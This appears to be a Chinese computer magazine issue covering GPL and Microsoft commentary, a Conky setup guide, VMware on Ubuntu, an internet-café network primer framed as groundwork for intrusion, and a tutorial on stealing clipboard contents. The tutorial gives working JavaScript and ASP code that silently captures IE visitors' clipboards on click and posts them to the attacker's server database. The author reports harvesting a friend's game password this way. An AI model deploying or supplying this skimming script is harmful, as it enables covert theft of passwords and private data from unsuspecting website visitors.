鲍尔默日前在接受采访时表示：“我们面临着一个问题，即 GPL 的运作模式。Linux 来自社区，而非某个公司。事实上，Linux 使用了我们的知识产权，这对我们的股东而言是个问题。我们每年在研发领域投入的费用高达 70 亿美元，我们的股东希望我们能够保护知识产权，或者是通过授权来赢得经济利益。因此，我们需要从这些知识产权中获得利益。”

> lala 点评：可能短短的两段文字并不能解释微软的企图……从 lala 多方面的信息获取了解到，微软通过某些协议使得一些开源的产品在某种意义上变成了微软的产品，或者说微软拥有其部分主权……实在没有太多好点评的……人不能无耻到这个地步！

## 6. Novell 用 GPL3 来粉碎微软的如意算盘

如果微软的目标是要在法庭上与自由软件一争高下，它也许会失望了。

Novell 决定参与到与 Redmond 的协议中，这个协议涵盖了知识产权的相互交换。我们了解到，包括一个“不起诉盟约”，不会引发诉讼攻势。相反，它正在采用更为隐蔽的改变许可条款的策略，在此条款下，使用社区代码的 Novell 收到用于它的商业产品的原料。

创造自由软件所需的一系列工具，包括 Linux 内核，当然都会采用 GPL 3。然而 GPL 3 内核是在 GPL 2 许可之下的，并且 Linus Torvalds 也已经表示他想要继续使用旧版的许可，所以很难看到一个像 Novell 这样获得许可的人能够发布一个它不能在二进制格式中创造的产品。

GPL 3 被它的批评家们视作一个长长的抱怨的详细清单，Moglen 建议对于手头重要的元素应该保持一致态度。

> lala 点评：显然，Novell 自己并不愿意作为一个开源的罪人，使得原本纯洁的开源变得铜臭十足。但事情已经如此，Novell 真的能对抗微软么？而之前的联盟真的只是一个陷阱么？真的只是为了这一天么？

现在 Novell 和 Microsoft 双方都在为官司准备着，谁赢谁输？这重要么？专利就是钱么？我们未来用 Linux 也要向微软支付 copy 费用么？法律是个很奇妙的东西，偶尔可以颠倒黑白。但我相信，法律是建立在道德的基础上的！正义精神是永远不会磨灭的！

## 用 Conky 美化你的桌面

Conky 是一款能够在桌面上显示系统信息的小软件，不但实用而且美观（图 1）。但是，这款软件在配置上有一定的难度，有特殊的依赖文件、需要修改 xorg.conf 等，大多数人都没能让它启动起来。本文就带大家一步一步从安装到配置体验 Conky。

工作环境：Ubuntu edgy

### 一、安装 Conky

1. 安装必须的依赖文件。

```bash
sudo apt-get --assume-yes install wmctrl
```

（小提示：如果你想从源代码编译，比如安装以下包：libxext-dev build-essential checkinstall。）

2. 安装 conky。

```bash
sudo apt-get --assume-yes install conky
```

### 二、配置 Conky

1. 在 home 文件夹下创建一个配置文件：

```bash
gedit /home/latteye/.conkyrc
```

2. 将以下内容复制进配置文件并保存（当然你也可以自己写配置文件，不过下面列出的可能是最好的）。

完整的配置文件在光盘中提供。

如果你的网络连接不可用，可以试着将配置文件中的“eth0”替换成“ppp0”或者“ath0”。

```bash
# UBUNTU-CONKY
# A comprehensive conky script, configured for use on
# Ubuntu / Debian Gnome, without the need for any external scripts.
#
# Based on conky-jc and the default .conkyrc.
# INCLUDES:
# - tail of /var/log/messages
# - netstat connections to your computer
#
# -- Pengo (conky@pengo.us)
#
# Create own window instead of using desktop (required in nautilus)
own_window yes
own_window_type override
own_window_transparent yes
own_window_hints undecorated,below,sticky,skip_taskbar,skip_pager
```

3. 修改 xorg.conf 文件。

```bash
sudo gedit /etc/X11/xorg.conf
```

找到“Module”字段，添加以下内容：

```bash
Load "dbe"
```

4. 打开 菜单－系统－首选项－会话－启动程序，将 conky 添加为启动程序。这样 conky 就会在下次开机时启动了。

图 1

### 三、kubuntu 的设置

kubuntu 的用户必须做一些修改才能正常使用 conky。

1. 首先修改配置文件，打开 .conkyrc 文件，注释掉以下内容：

```bash
own_window yes
own_window_hints undecorated,below,sticky,skip_taskbar
background yes
```

因为我们不会在 kubuntu 中使用 nautilus，所以我们注释掉它（小提示：nautilus 是 gnome 环境下的文件管理器）。

2. 想要让 conky 在 kubuntu 环境下自动启用，你必须将可执行程序添加一个文件链接到：

```bash
~/.kde/Autostart
```

> 【文中所涉及的软件在光盘中有所提供：conky、conky.conf 配置文件。】

> **编辑点评：**对于桌面小工具来说，其实简单易用也是很重要的，比如 gdesklets，这有点像通过 widget 来美化桌面。而 conky 这款软件虽然功能强大，定制能力强，但没有很好的图形配置方式，在普及上也有一定难度。喜欢玩桌面的朋友可以试试 gnome-dock、kiba-dock 等小工具。

## 在 Ubuntu 中通过 VMware 安装 Windows XP

无论是新手还是老鸟，在使用 Linux 的时候一定会遇到这样的问题：我们所需要的软件只有 Windows 版本的而没有 Linux 版本的。你是怎么解决的呢？一直以来恐怕大多数人都是安装双系统，这样在需要使用特定软件的时候，比如 PS、网上购物，就切换到 Windows。

今天我们就带大家在 Linux 环境下快速地用上 Windows 类的软件。听起来很棒，怎样才能做到呢？你一定听说过虚拟机吧？是的！我们曾经专门介绍过在 Windows 环境下通过虚拟机使用 Linux 的方法。今天就要介绍如何在 Linux 下通过虚拟机安装 Windows。去年我们已经学习过一款短小精悍的虚拟机：qemu，而本期带来的是老面孔哦！你一定猜到了，VMware！

当然，在 VMware 中的 Windows 跑得一定没有真实机器那么快，但应付一些日常的工作，比如网上购物，肯定是足够了的。我在虚拟机中同样是使用虚拟的硬件。

### 一、工作环境：

- 1. Ubuntu edgy（作为基础系统）。
- 2. Windows XP（作为虚拟系统）。
- 3. 良好的网络环境。

### 二、安装必要的软件包

在安装 VMware 之前，我们必须安装上编译所需要的环境：

```bash
sudo apt-get install linux-headers-`uname -r` build-essential xinetd
```

小提示：`uname -r` 上面的不是单引号哦，是数字 1 左边的按键。

如果是 Ubuntu Breezy 系统还需要专门安装 gcc-3.4：

```bash
sudo apt-get install gcc-3.4
```

### 三、安装 VMware Server

1. 打开 http://www.vmware.com/products/server/ 网站，点击 Download Now 下载最新 VMware Server，之后再点击 Download，在同意了协议之后就可以看到最终的下载页面。选择 VMware Server for Linux 下载即可（图 1）。

2. 将下载到的压缩包解压缩到一个临时目录，我解压缩到了 /tmp 目录（tar xzvf filename）。

3. 在 Shell 下执行以下命令：

```bash
cd /tmp（将 tmp 换为你解压缩的目录地址。）
sudo ./vmware-install.pl
```

小提示：对于 Breezy 用户，需要先执行 `export CC=/usr/bin/gcc-3.4`，将编译器定为 gcc-3.4。

在接下来的安装过程中，你可以将所有选项默认通过。唯一不同的是，存储虚拟镜像文件的位置需要定制，我的目录是 /home/username/vmware。

小提示：如果你正在使用 2.6.19 内核，你会在安装过程中中断。我们必须修改几处才能使安装正常。

(1) 在安装中断后，执行以下命令：

```bash
cd /usr/lib/vmware/modules/source/
tar -xvvf vmnet.tar
cd vmnet-only/
```

接着打开 bridge.c.patch 文件，将 1179 行的内容替换：

原内容：`if (skb->ip_summed == CHECKSUM_HW) {`  
替换内容：`if (skb->ip_summed == CHECKSUM_PARTIAL) {`

打开 userif.c.patch 文件，将 629 行内容替换：

原内容：`skb->ip_summed == CHECKSUM_HW &&`  
替换内容：`skb->ip_summed == CHECKSUM_PARTIAL &&`

接着将文件重新打包，并重新开始安装程序：

```bash
cd ..
tar -cvvf vmnet.tar vmnet-only/
/usr/bin/vmware-config.pl
```

(2) 安装过程中提示无 `config.h` 文件，你只需要在 `/usr/src/linux/include/linux/` 目录中创建一个空 `config.h` 文件即可。

4. 安装完成，我们可以在 菜单－应用程序－系统工具 找到 VMware Server Console 了，点击就可以打开 VMware Server Console（图 2）。

### 四、在 VMware 中安装 Windows XP

- 1. 在弹出的窗口中选择 Local host，我们以本地为服务器（图 2）。
- 2. 选择 Create a new virtual machine，接着就会出现向导（图 3）。
- 3. 选择 Next—Custom—Next，接着选择 Microsoft Windows—Windows XP Pro（图 4）。
- 4. 选择虚拟机文件存放地址（图 5）。
- 5. 选择 CPU 个数（图 6）。
- 6. 确认读取权限（图 7）。
- 7. 调整内存（图 8）。
- 8. 选择联网方式，我选择 NAT（图 9）。
- 9. 选择 I/O 方式（图 10）。
- 10. 创建一个新的磁盘文件（图 11）。
- 11. 选择硬盘的种类（图 12）。
- 12. 设置磁盘的大小（图 13）。
- 13. 等待片刻后，就可以启动虚拟机了。不过在这之前，我们先设置一下光驱。选择 Edit Virtual Machine Settings—CD-ROM—Device，选择为 /dev/cdrom，确认即可（图 14）。
- 14. 现在你只需要启动虚拟机，将 Windows XP 安装光盘放入光驱就可以了（图 15）！

> **编辑点评：**通过个人的试用，发现 Linux 下的 VMware 速度比 qemu 要快上不少，完全可以作为真实环境使用。当然像文章中提到的 PS 还是免了，VMware 虚拟出的显卡性能并不强劲。不过作为网络购物、QQ 等常用软件，提到的方案是很不错的，适合大内存的用户。

## 网吧之网：网吧布局

星陨石碎

> **星星点灯：**
> 圣诞的余温尚存，新年伊始我们又迎来了新一期的“黑手”。终于到了最寒冷的时候，坐在机房中几个小时面对显示器，的确会让人感觉到“心惊胆战”，一位朋友形容为“那时候手和脚像是别人的”。而冬日的寒冷无法淹没网吧生意的火爆，每个星期六、日就是网吧的节日，也是广大热爱网络的朋友的盛宴。不信请看，哪个玩游戏的或是聊 QQ 的不是红光满面，而且是边笑边唱边乱吼的，十分洒脱奔放，面部表情惬意异常。不过提醒一些喜欢嘶吼的朋友，网吧毕竟是公共场所，注意不要影响到他人。最重要的是留给别人谦谦君子（当然还有窈窕淑女）的形象哦！好了，来看本期泡吧吧给大家准备了什么好东东！

- **从本文中你可以学到：**
- 认识网吧中各种硬件设备
- 了解网吧的布局

## 序

常看到有一些朋友问到一些类似如何入侵主机加钱，如何远程控制等的问题。看了一些高手的文章后，觉得他们做起来很轻松，而我们在亲自操作的时候往往没有教程上说的那样一帆风顺。提到上面的问题，就不得不接触网络这个东西。有很多事情都是这样的，我们只朝着目的看齐，却忽视了过程中的重要因素。就比如说入侵，我们平常只是关心入侵的方法与原理，而一个不懂网络的人又何谈入侵呢？

万丈高楼平地起，想要做成一件事情，打好坚实的基础是必须的。我在学习网络知识之前，总以为网络就是那点东西，没有什么好学的。而事实呢，我在入侵中总是出现了很多和自己想象大相径庭的现象，让我陷入深深的郁闷中。而看过一些专业的书籍后，一些困惑自然迎刃而解了。可以看出，小小的知识脱节就可能成为你成就一件事情的拦路虎。

正是出于这种考虑，同时也为了自己学习，就有了这篇文章。在本文中，我将讲解网吧的布局方案，让读者朋友从本质看网吧——不过也是一个局域网，加入了一些特殊的因素而已。只是同时，你可以从本文中学习到网络的相关知识。本文将主要从物理层面入手，因为一些可以看到的物理东西理解起来要比抽象的东西容易得多，具体来说就是网吧中各种网络设备，当然也会涉及到一些软件。本文只希望在阅读过后可以解决你的一些问题，我也就无憾了！

我想网吧是我们普通人最容易接触到的真实的网络了，并且在网吧中做各种试验不必担心什么，网吧一般都有还原系统。呵呵，这也算是网吧的一个优点吧！闲话说到这里，网络的专业术语比较多，我们尽量避免知识脱节或跳跃，使本文尽量容易理解，我先要逐一解释这些名词。

- **工作站：**
  就是我们直接操作的电脑，也称为客户机。
- **服务器：**
  就是网吧管理员或者技术员直接操作的那些计算机，这些计算机比一般的计算机性能要强大很多。一个像样的网吧中一般有管理服务器、数据库服务器、游戏服务器、电影服务器，除了这些还可能有网站服务器。不要认为一个服务器就一定是一台计算机，服务器是可以用软件实现的，所以有可能存在一台计算机上安装两个或两个以上服务器的可能，比如管理服务器和数据库服务器在很多时候是同一台计算机，这很大程度上取决于网吧管理软件。

当然你还要明白网络按地域范围的分类，大致可以分为：

- **LAN、MAN 和 WAN。**
- **LAN：** Local Area Network，局域网，它是将位于相对有限区域（例如一幢建筑物）内的一组计算机、打印机和其他设备连接起来的通信网络，网吧的网络就要算局域网了。
- **MAN：** Metropolitan Area Network，城域网，它是地理位置规模在一个城市之内的网络。
- **WAN：** Wide Area Network，广域网，它是范围跨城市甚至跨国家的网络。

明白了上面这些概念后，我们就可以进入正文部分了。在网吧中除了计算机外，我们还会看到很多其他样子的机器，大部分是丑乎乎的、面目不清的铁盒子，好的是它们有的闪烁着灯光。它们是为了连接各计算机构成网吧这个网络而存在的，我们这里统称它们为网络设备。除了在网吧，它们在其他网络环境中同样是必不可少的。本文中将主要关注它们的作用以及工作原理，对于它们的性能优劣不做不必要的讨论。下面让我们来逐一看看它们都是哪根葱，当然肯定有你没有见过的！

## 一、网吧常见网络设备一览

### 1、调制解调器（Modem）

家里有联网的朋友对这个东西应该不会陌生，它就是我们平时俗称的“猫”。猫是一个个头小巧的铁盒子，上面有很多闪烁的小灯，如图 1。


它的作用是调制和解调，即转换信号为计算机或者通信线路可以识别的信号，因为在线路上传输的信号是模拟信号，计算机使用的是数字信号。要想使它们能互相辨认对方传送的信息，必须使用调制解调器转换。

### 2、电缆


就是我们通常俗称为网线的、实现设备与设备互联的物理介质。其实电缆分为双绞线、同轴电缆和光纤电缆三种，不过我们在这里不会细究它们。

它们的不同在于传输速度和传输质量，当然它们的费用差距也是很大的。除了光纤接入的网吧中在连接 WAN 的位置会用到光纤外，在局域网中最常用的就要属双绞线了，如图 2。

### 3、网络接口卡（NIC）

即 Network Interface Card，如图 3。它被安装在电脑机箱的内部，一般我们看不到。网卡上会有电缆接口，当然对于不同的电缆会有不同的接口，而通常一种网卡只提供一种接口。网吧中最常用的接口当然是 RJ-45 接口了，因为它配合双绞线使用，它们之间需要一个 RJ-45 接头之类的东西连接，如图 4。


计算机是通过网卡和网络互联的，因为网卡与局域网是通过双绞线以串行方式进行通信的，而计算机网卡与计算机之间是以并行的方式进行通信的，因此网卡的一个重要作用就是实现数据的串并转换。

### 4、交换机（Switch）


我想它是除了计算机外在网吧中出现几率最高的网络设备了。大家都知道两个计算机想要联网的话，只要用一根双绞线就可以了，这样的连接称为双机直联。而网吧中不可能只有两台计算机，网吧需要把更多的计算机连接到同一个网络里。而网卡接口的数量是有限的，因此我们需要一个设备把所有需要连在一个网络里的计算机连接起来，这个设备就是交换机了。交换机有很多档次，不同档次的交换机接口数也不同。前面说了交换机会连接想要组成一个网络的所有计算机，而它的工作就是实现这个网络中某两台或更多计算机之间的通信。我们经常看到的一个 50cm 长度的、插着很多线闪着很多灯的家伙差不多就是交换机了，如图 5。


交换机的接口数不是固定的，随着时间的推移它的接口数也在逐渐增多。市面上常见的交换机有 TP-LINK、联想、D-Link、3Com 等。

### 5、集线器（HUB）

集线器和交换机扮演的是同一个角色，而现在很少看到集线器的原因很简单，集线器的传输速率比交换机要慢很多，而且集线器的数据传输是不安全的。现在在网吧中很少还会看到集线器，它正在逐渐退出历史舞台。集线器和交换机的样子差不多，你只要去辨认下名称就好了。


### 6、网桥（Bridge）

这是一个现在网络中使用得较少的设备。毕竟交换机的接口是有限的，假设当一个交换机的接口数达到了最大值，而我们还有计算机没有被加入到该交换机下的网络中。这时候就要考虑把剩下的计算机组建成另外一个网络了。而要实现新组建的网络和第一个网络的通信，网桥是必不可少的，如图 6。

网桥的作用就是连接两个或者更多的局域网。除了这个作用，它还可以放大传送信号，进行信号重组。网桥只会发送干净的信号，它会将线路噪声全部屏蔽。

在小型网吧中，我们是看不到网桥的，因为这些网吧的计算机数量不足以构成一个稍微大一些的 LAN。而在中大型网吧中，网桥也并不多见，这是为什么呢？其实这正是因为路由器的广泛应用，而且现在有一种叫作桥式路由器的设备。要理解桥式路由器的工作原理，先要明白什么是路由器。

### 7、路由器（Router）

首先要明白什么是路由。路由就是把数据从一个地方传送到另一个地方的行为和动作，所以路由器就是执行这个动作的设备，如图 7。

呵呵，路由器是不是和交换机很像呢？路由器可以连接多个网络或者网段，即使这些网络或者网段不是同一种类型的。路由器由于是做翻译工作，它翻译来自不同网络的数据，以使这些网络能够相互读懂对方的数据信息。总结下路由器主要有以下几个作用：


- （1）网络互连。路由器支持各种局域网和广域网接口，主要用于互联局域网和广域网，实现不同网络互相通信；
- （2）数据处理。数据处理包括分组过滤、分组转发、加密等；
- （3）网络管理。这种管理指配置网络、控制流量和性能等。

其实说起来路由器和网桥真是有很多相似，但是由于路由器强大的功能决定了出现桥式路由器而不是路由式网桥。桥式路由器即包含了网桥和路由器的功能，不仅如此，路由器还在不断被扩展更强大的功能，它正在取代网络中更多的硬件设备。虽然说软件同样可以路由，但是要想构建稳定、大流量的网络，购置一个好的路由器是必要的。在一个网吧中，路由器通常担任连接 LAN 和 WAN 的任务，而在有的小型网吧中，业主直接使用带有路由功能的猫完成路由功能。由此也看出来，不仅仅是路由器，很多网络设备都开始扩展功能，以满足不同用户的需求，这样似乎更灵活一些了！

要说生产路由器，老大应该是 Cisco 了，其他厂商比如华为、3Com 等。路由器的接口数量也是不固定的，而且同样在不断增长。

### 8、网关（Gateway）

首先网关可以是一台计算机或者路由器，也有可能是其他设备。小型网吧一般使用一台具有网关功能的计算机作为网关，常见的如 Windows 2000 的服务器版本，而规模稍微大些的就会使用路由器了。网关连接 LAN 和 WAN，它的作用是翻译来自这两种不同类型网络的信息。比如一台客户机发送一封电子邮件，在这封邮件到达邮件服务器之前就得先通过网关处理。一台担任网关的计算机也算是服务器，有时候你在网吧上网的时候遇到掉线的情况，通常都是网关服务器出现了问题，毕竟计算机要比某些硬件设备更不稳定一些。其实网关就像一个路由器，路由是网关的功能之一，不过路由器做得更专业。

大家或许发现了，这些设备有些功能十分类似甚至相同，而事实也的确如此。而今越来越多的网络设备具备了其他设备的功能，而它们都能生存的一个原因就是可以满足不同用户的需求。也许有的用户对网络速度的要求不高，而有的却相反。网吧同样如此，网吧业主通常首先要考虑自己的网吧规模、提供服务的质量等，当然经济问题也是很重要的。然后他们会根据以上这些条件去挑选网络设备，也许上面的这些设备一个网吧只会用到一部分，也有可能会出现同一种设备需要配备 N 个的情况。接下来我们就将分类看下网吧的布局。

## 二、网吧的网络布局

### 1、小型网吧

小型网吧的工作站数量一般在 30 台左右。网吧业主的经济实力不强，对网络性能和服务质量要求不会很高。这样的网吧使用的网络设备一般只有 1 到 2 台交换机和一个调制解调器。LAN 中的所有计算机连接到交换机上，然后交换机连接到网关服务器上，通过网关服务器代理上网。调制解调器是接在 WAN 和网关计算机之间的，这时候这个猫就需要配备带有路由功能的了。通常这样的网吧只提供接入 Internet 的服务，当然肯定有游戏了，而游戏通常安装在本地计算机硬盘；也有可能在本地硬盘提供音乐给客户听。我家附近的一家小网吧就是这样的，我们在那上网的时候一听到有人喊“掉线了”，就知道是网关服务器那儿出问题了，最表面的现象就是网关的桌面托盘处的本地连接上有一个红叉。需要注意的是，通过网关主机的代理共享上网的这种方式需要在网关上安装两块网卡，所以我们就会在网关的网络连接中看到两个本地连接了。一块网卡用于连接 WAN，另一块用于连接 LAN 中的交换机。如图 8 是这种布局方式的示意图。


图 8 小型网吧的网络布局

要用计算机作网关，就得使用具有网关功能的操作系统。一般网吧中使用 Windows 2000 Server 或者 Windows 2003 的服务器版本作为网关服务器的操作系统。这时候就会有另外一种情况，调制解调器可以不带路由功能，路由的功能由操作系统自带的路由软件实现，我们前面已经说过软路由是存在的。因为网吧的规模较小，对网络连接速度的要求不是很高，所以使用软路由一般也可以满足要求。

而网吧管理软件也是网吧不可或缺的一部分。在小型网吧中，它通常被安装在网关服务器上，这就是我们前面提到的数种服务器集中在一台计算机上的情况了。由于网吧规模较小，这时网关服务器的性能稍微好一些就可以满足各种服务器的需求了。

### 2、大中型网吧

由于大中型网吧的布局差异较小，因此我们统一起来讨论。这些网吧一般拥有较强的经济实力，它们会在硬件设备上下大气力，譬如购置一些高档的网络设备，而同时这些网吧提供的服务较小型网吧要强很多。它们提供除基本的 Internet 访问外更多的服务，比如在线电影、MP3 下载、丰富的游戏、社区网站服务等，而这些网吧的网速也相对快得多了。这些要得益于强大的硬件和软件支持和科学的网络布局，让我们来看看这些网吧是如何布局的。

大中型网吧的客户机数量一般在 100 台左右，这就要求不只两三台交换机出现在网络中。我们把直接连接工作站的交换机称为子交换机，它们通常被安排在一个层叠的长方形柜子中，大部分接口连接客户机，组成 N 个子网，而其中必定有一个接口空出来（其实不必特别注意，因为交换机上的那个级联接口一般都独立出来了）。所有子交换机都是如此，因为一个网吧不可能让交换机划分的子网独立，这些子网必须再互相连接，最终把网吧中的所有计算机组成一个大的局域网。所以它们空出来的那个接口就要通过一根双绞线连接到一台中心路由器上，以连接各个子网。也有先连接到一台中心交换机上再连接到路由器上的情况，而路由器就直接连接到 WAN 了。现在越来越多的网吧是光纤接入的，这大大提高了网络访问的速度。采用光纤接入的网吧在选择路由器的时候就要选择具有光纤接口的了，当然也可以使用光信号收发设备进行信号转换后再进入 WAN 或网吧。

这些网吧在提供服务的时候，不会把所有的服务器安装在同一台计算机上，通常是一台计算机提供一项服务。这些电影服务器、游戏服务器等通常也存在于 LAN 中的某个子网或者独立出来直接连接到中心交换机/路由器上，安排位置决定了不同的访问速度，一般是独立出来的。这些计算机的性能当然要强于客户机。

服务器的操作系统一般安装的是 Windows 2000/2003 的服务器版本或者是 Linux/Unix。对于网吧管理软件，有些负责管理的服务器和计费服务器是留在一起的，这时候就不得不把这两种服务器安装在同一台计算机上。虽然对网吧管理不会造成多大的影响，但是相对来说这样的布局安全性就降低了。当然也有管理程序和计费程序分离的网吧管理软件，比如 Pubwin EP。Pubwin EP 的管理程序（控制台）通过连接远程计费程序经营网吧，虽然也是在同一台计算机上操作网吧管理和收费，但是这样的安排却要安全多了。而对于游戏服务器和电影服务器，专业一些的网吧会部署相应的服务器软件，另外一种情况就是在电影或游戏服务器上共享某个目录（甚至是根目录），然后在客户机上把这个服务器的共享文件夹的快捷方式拉到桌面上并美其名曰“XX 在线影院”“XX 游戏天堂”。这两种服务器通常会直接连接到 WAN，也就是说它们既存在于网吧中，又存在于 WAN 上。因为在下载新电影或者更新游戏的时候需要占用大量的带宽（这时候把通信线路比喻成一个管道，带宽就是管子的宽度哈！），如果通过和其他客户机同样的线路进行下载或更新的话，会大大影响网络连接速度。大中型网吧的一般布局如图 9。


图 9 大中型网吧的网络布局

## 尾声

本文到这里差不多就结束了，我只是希望大家可以通过这篇文章对一些容易见到的网络硬件设备和网吧布局方式有个基本的了解。本文讲的只是一些皮毛知识，网络技术的知识浩瀚无边，你若想了解更深，免不了要看些专业书籍。笔者新学网络知识，这块东西给我的感觉是十分零碎，而且对同一个知识点有很多不同的说法。网络真的是存在 N 多种可能，而且不断有新的技术被运用到网络上，感觉没有什么事情是不可能的。文章完成得比较仓促，加之笔者水平有限，如有什么错误，还请高手不吝赐教！

> 编辑点评：本文试图从最直观的角度讲解网吧的布局，因为一些硬件设备都是真实可见的，我想这可以使大家理解得更容易一些。我们要搞入侵，当然得先摸透对方的底子，本文就是一篇“知彼”的文章，同时对一些想要经营网吧的朋友也是有一定的帮助的。文章中有些部分的描述比较“简陋”（还有最后两幅图片～），如果你想把事情看个通透，建议还是多看一些专业资料了。

## 网页盗秘——IE 剪贴板获取技术

张宇编译

Internet Explorer 是网络上的兵家必争之地，谁攻破了它，就能获取到至高无上的权限；而谁将其守住，那也就是一夫当关，万夫莫开了。本期给大家带来的就是和 IE 密切相关的攻与防。

- **从本文中你可以学到：**
- 简单了解 Javascript 的使用
- 利用 Ajax 技术获取网页访问者的剪贴板信息

一些被盗号的朋友中，有一部分人利用复制粘贴密码的方式来避免被键盘监听软件监听，针对这种方式我们可以利用 IE 剪贴板攫取技术来获取密码。经过测试，在主页中加入精心设计的脚本代码，可以很轻易地获取一些访问者的隐私，比如密码信息。当用户访问该类页面时，系统剪贴板信息就被记录，由此获取用户隐私。本文为了节省篇幅，省略了数据加密部分，只针对该技术关键部分进行详细讲解。

## 构造提交剪贴板信息的 Ajax 脚本

要获取当前访问者的剪贴板信息，可以通过 Javascript 所提供的剪贴板操作对象 clipboardData 的 `getData("Text")` 方法来实现，该方法在 Javascript 中用于获得剪贴板信息。代码如下：

```javascript
<!--
// 判断交互状态，初始化为假
var http_request = false;
// 后台提交 HTTP 请求的函数
function makeRequest(url) {
    http_request = false;
    if (window.XMLHttpRequest) {    // Mozilla, Safari,...
        // 初始化 http_request 对象
        http_request = new XMLHttpRequest();
        // 定义 Request 的类型
        if (http_request.overrideMimeType) {
            http_request.overrideMimeType('text/xml');
        }
    } else if (window.ActiveXObject) {    // IE
        try {
            // IE 中初始化 http_request 对象的方式一
            http_request = new ActiveXObject("Msxml2.XMLHTTP");
        } catch (e) {
            try {
                // IE 中初始化 http_request 对象的方式二
                http_request = new ActiveXObject("Microsoft.XMLHTTP");
            } catch (e) {}
        }
    }
    // 判断 http_request 对象是否初始化成功
    if (!http_request) {
        alert('Cannot create an XMLHTTP instance!');
        return false;
    }
    // 使用 POST 方式按指定 URL 进行提交
    http_request.open("POST", url, true);
    // 定义数据提交时的提示内容
    http_request.onreadystatechange = alertContents;
    http_request.send(null);
}
// 数据提交时的提示信息函数
function alertContents() {
    if (http_request.readyState == 4) { // 已经开始提交
        if (http_request.status == 200) {    // 提交成功
            return true;
        } else {
            return false;
        }
    }
}
// -->
```

在 Ajax 中，通过建立 XMLHTTP 对象并向后台进行数据提交。这是一个比较通用的代码，并且对当前所流行的各浏览器都支持。`makeRequest` 函数用于提交 URL，所以此时我们就可以构造一个 URL 地址传递给 `makeRequest` 函数进行提交。构造 URL 的代码如下：

```javascript
// 存储用户剪贴板信息
var pubstr;
// 得到剪贴板信息的函数
function grabClip() {
    var newClp = "", oldClp = "", tmp = "", clpHist = "";
    // 循环用的临时变量
    var nCount;

    try {
        // 获取剪贴板信息
        var newClp = clipboardData.getData("Text");

    } catch(e) {
        clearInterval(interval);
    }

    // 将每次获取的剪贴板信息存放在 clpHist 变量中
    if (oldClp != newClp && newClp) {
        if(clpHist != "") {
            var tmp = newClp + "\n--------------------------------- snip ---------------------------------\n" + clpHist;
            clpHist = tmp;
        } else {
            clpHist = newClp;
            pubstr = clpHist;
        }
    }

    oldClp = newClp;
    // 替换特殊字符
    if (pubstr != "" && typeof pubstr != "undefined") {
        for(nCount=0; nCount<pubstr.length; nCount++) {
            pubstr=pubstr.replace("+", "[(0001)]");
        }
        for(nCount=0; nCount<pubstr.length; nCount++) {
            pubstr=pubstr.replace("'", "[(0002)]");
        }
        for(nCount=0; nCount<pubstr.length; nCount++) {
            pubstr=pubstr.replace("\\", "[(0003)]");
        }
        pubstr = escape(pubstr);
        http_request.onreadystatechange = alertContents;
        makeRequest("clipboard.asp?mdata=" + pubstr);
    }
}
```

上面的代码中，通过 `clipboardData.getData("Text")` 方法获取剪贴板内容，然后过滤掉“+”、“'”、“\”几个特殊符号，此处以“[(编号)]”的形式来替换，否则会影响提交。程序将获取的剪

贴板内容存储在 substr 变量中，最后通过调用 makeRequest 函数提交给 ASP 脚本。这里的 URL 地址是使用了 GET 提交的写法，即 makeRequest("clipboard.asp?mdata="+substr)。而在 makeRequest 函数中进行 POST 提交。

我们将上面几段代码保存为 clip.asp 文件，这里将该文件放在网站目录的 scripts 文件夹下。

## 构造处理剪贴板信息的 ASP 脚本

这个 ASP 脚本用于和数据库交互，将 Ajax 提交的数据接收并保存在数据库中，我们看关键代码，此处省略了连接数据库的部分代码。

```asp
' 数据库连接
Call ConnectionDatabase

' 查询语句
strSqlSel = "select count(*) from clipboard"
' 获取记录总条数
nCount = Cint(GetFeildValue(strSqlSel,Conn,0,2))
' 获取前台传递过来的剪贴板信息
Muserdat = Trim(Request.QueryString("mdata"))

If Muserdat <> "" Then
    ' 如果 Session("Clip") 变量的值为空或者与当前取得的剪贴板信息不同则保存进数据库
    If Session("Clip") <> Muserdat Or Session("Clip") = "" Then
        ' 将剪贴板信息保存在数据库里
        strSqlSel = "insert into clipboard(num,ip,clipdata) values(" & nCount & "," & strIPAddress & "," & Muserdat & ")"
        Conn.Execute strSqlSel
        ' 更新 Session("Clip") 变量的内容为刚刚保存过的剪贴板信息
        Session("Clip") = Muserdat
    End If
End If
```

该脚本将每次用户访问取得的剪贴板信息保存在 Session("Clip") 变量中，同时存储在数据库中。当前获取的用户剪贴板信息如果与上次存入 Session("Clip") 的信息不一致，则替换 Session("Clip") 变量的内容并添加到数据库，否则取消操作，这样可以避免重复的内容被导入数据库。

我们将该 ASP 文件命名为 clipboard.asp，与 index.asp 放于同一目录下。该 ASP 脚本所涉及到的数据库文件大家可以自己建立。

## 主页中加入所构造的脚本

以上几个文件建立好之后，我们在主页中加入两段代码，一段用于引用 clip.asp 脚本，代码如下：

```html
<script language=javascript src="./scripts/clip.asp" type=text/javascript></script>
```

另外一段代码是在 `<BODY>` 的 onclick 事件中调用 grabClip 函数：

```html
<body onclick="grabClip();">
```

一切准备就绪，我们将这几个页面上传到网站上，这些脚本会自动收集访问者的剪贴板信息。

## 访问者密码信息如何被盗

先前我们已经将所构造好的脚本上传到了网站上，此时访问者使用 IE 浏览器访问这个站点。当他们在主页面做任何单击动作的时候，就会触发页面的 onclick 事件，该事件调用 grabClip 函数。


图1 无交互的浏览器界面


图2 数据库中保存的访问者剪贴板信息


图3 证实程序有效的聊天记录

来获得用户剪贴板信息并保存在后台数据库中。而浏览器与服务器之间的交互在浏览器界面上没有任何反映，不会出现 B/S 交互的进度条，如图1所示。

此时，用户的剪贴板信息就已经保存在数据库中。一段时间之后，我们来看一下数据库里的信息，如图2所示。

记录中有四条估计是密码信息，其中包含了我一个朋友的魔兽世界的游戏密码。最后我们来看一下我和朋友的聊天记录，证实一下 IE 该缺陷泄露用户隐私的严重性，如图3所示。

上述脚本代码仅供大家一起研究，但希望能将技术利用在正途上。（作者提到的网页盗秘——IE 剪贴板提取技术的代码已经收录在光盘中）

> 编辑点评：本文的作者利用 Ajax 实现了获取访问者剪贴板信息，最后让小编我很是后怕，难道真的是道高一尺魔高一丈吗？

- 从本文中你可以学到：
- 1. VB 编写“Runas”
- 2. VB 启动一个低权的浏览器

## VB 打造低权浏览器

风飘雨

大家都知道，在上网时如果使用一个权限很低的浏览器，安全性会大大提高，所以网上流传着这样一种方法，就是使用“Runas.exe”低权运行浏览器来防止病毒和网页木马等。但是这样的缺点是每次都要输入很多命令，太麻烦，那我就给大家介绍一个方法，利用 VB 编程实现以低权限启动浏览器。并且，只要稍改一下代码，就可以写出一个属于自己的“Runas.exe”！
